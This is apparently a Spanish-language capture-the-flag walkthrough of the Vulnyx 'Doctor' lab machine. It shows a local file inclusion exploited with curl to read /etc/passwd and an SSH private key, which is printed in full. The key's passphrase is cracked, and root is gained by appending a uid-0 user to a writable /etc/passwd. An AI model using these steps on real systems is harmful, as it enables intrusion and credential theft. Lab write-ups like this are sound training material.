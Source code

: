

Herramientas usadas:
[[ARP-Scan]]
[[Ping]]
[[NMAP]]
[[RSAcrack]]
[[Curl]]
[[Chmod]]



https://vulnyx.com/
Mirror: [mega.nz/file/Ie5w0JjJ#uVXwMBWLAQKc04metFBHozlPYfnXfYttuGU_7de_69M](https://mega.nz/file/Ie5w0JjJ#uVXwMBWLAQKc04metFBHozlPYfnXfYttuGU_7de_69M)

Mirror, download:
![[Vulnyx - Doctor - img.png]]


## Reconocimiento en la red
![[Vulnyx - Doctor - IP.png]]

sudo arp-scan -I eth0 --localnet

![[Vulnyx - Doctor - Arp-scan.png]]
IP: 192.168.1.139
Ping
![[Vulnyx - Doctor - Ping.png]]

TTL=64 --> Linux

# Reconocimiento

## Nmap

sudo nmap -sS -p- -Pn 192.168.1.139 
![[Vulnyx - Doctor - Nmap.png]]


Nmap Scrip
al 80:
sudo nmap --script "vuln" -p80 192.168.1.139
![[Vulnyx - Doctor - Nmap script 80.png]]


al 22:
sudo nmap --script "vuln" -p22 192.168.1.139

![[Vulnyx - Doctor - Nmap script 22.png]]


No encuentro nada en metasploit para atacar estas vulnerabilidades.
vemos la web que corre en el puerto 80:

![[Vulnyx - Doctor - Web default.png]]

Vamos a hacer ffuf para ver si encontramos algo interesante:


encontramos esta URL:
![[Vulnyx - Doctor - Web URL.png]]http://192.168.1.139/doctor-item.php?include=Doctors.html
y vemos que tiene un include:
le hacemos una peticion curl:
curl -s -X GET "http://192.168.1.139/doctor-item.php?include=/etc/passwd" 


![[Vulnyx - Doctor - curl + user.png]]


Usuario: admin
Conseguimos el id_rsa a través de curl:
curl -s -X GET "http://192.168.1.139/doctor-item.php?include=/home/admin/.ssh/id_rsa"

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----

![[Vulnyx - Doctor - Id_RSA.png]]




lo guardamos en un fichero:
![[Vulnyx - Doctor - idRSAA in a file.png]]
le damos permisos de escritura y ejecucion al fichero
chmod +xw id_rsa

![[Vulnyx - Doctor - id_rsa file.png]]

ahora vamos a udar este fichero para conectar por ssh con el usuario admin

ssh -i id_rsa admin@192.168.1.139
pero nos sale el siguiente mensaje:
Permissions 0755 for 'id_rsa' are too open.
![[Vulnyx - Doctor - permissos incorrectos para el fichero.png]]
volvemos a cambiar los permisos al documento id_rsa:
chmod 600 id_rsa
![[Vulnyx - Doctor - change id_rsa permissions.png]]
y volvemos aintentar conectar:


![[Vulnyx - Doctor - Ssh connection key for id_rsa.png]]


clonamos esta herramienta de este repo:
git clone https://github.com/d4t4s3c/RSAcrack.git


![[Vulnyx - Doctor -  Cambiamos los permisos a RSAcrack.png]]
Le damos permiso de ejecucion a la herramienta y la ejecutamos

./RSAcrack -w /usr/share/wordlists/rockyou.txt -k {rsafile}

![[Vulnyx - Doctor - RSACrack.png]]
y encontramos una contraseña:
![[Vulnyx - Doctor - RSAcrack saca la contraseña.png]]

admin: unicornio
vovemos a intentar hacer el ssh y accedemos ocn la contraseña encontrada:
![[Vulnyx - Doctor - ssh access.png]]


user flag: 0819e6dfb35db7c61353e4dce311b397

![[Vulnyx - Doctor - User flag.png]]

# Escalada de privilegios

ejecutamols:
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd

![[Vulnyx - Doctor - Escalada.png]]
Vemos que el archivo passwd es writeable:


para vulnerasr esto primer generamos una contraseña:
openssl passwd 123456


![[Vulnyx - Doctor - Genrate passrod.png]]

Luego lo agregamos al fichero passwd como root2
echo "root2:2quasw1hUYYNw:0:0;root:/root:/bin/bash" >> /etc/passwd
o mejor entramos con nano /etc/passwd y cambiamos la contraseña del root a mano:


![[Vulnyx - Doctor - Editar fichero passwd en etc.png]]

luego hacemos su y ponemos la contraseña que hemos creado : 123456
![[Vulnyx - Doctor - Root user.png]]

root flag: dfde8cc67ed8819b2386dc74e472ecc6

![[Vulnyx - Doctor - root falg.png]]

